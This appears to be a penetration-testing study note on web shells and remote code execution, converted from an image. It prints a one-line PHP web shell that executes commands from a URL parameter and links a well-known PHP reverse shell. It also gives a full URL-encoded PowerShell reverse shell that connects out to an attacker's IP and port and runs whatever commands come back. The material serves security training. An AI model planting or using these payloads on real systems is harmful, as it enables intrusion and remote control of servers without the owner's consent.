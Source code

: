 * Commands are entered into a webpage - either through an HTML form, or directly in the URL - which are then executed by the script.
* Extremely useful if there are firewalls in place, or even a stepping stone into a fully fledged reverse or bind shell.

PHP is still the most common server side scripting language.

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Any commands we enter in the URL after `?cmd=` will be executed on the system - Windows or Linux. The pre elements are to ensure that the results are formatted correctly on the page.

There are a variety of web shells available on Kali by default at `/usr/share/webshells` - including the the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - a full reverse shell written in PHP.

* Most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux web servers. They will not work on Windows by default.
* When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server.
* RCE with URL Encoded Powershell Reverse Shell copied into the URL:
  * `powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
    * Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.
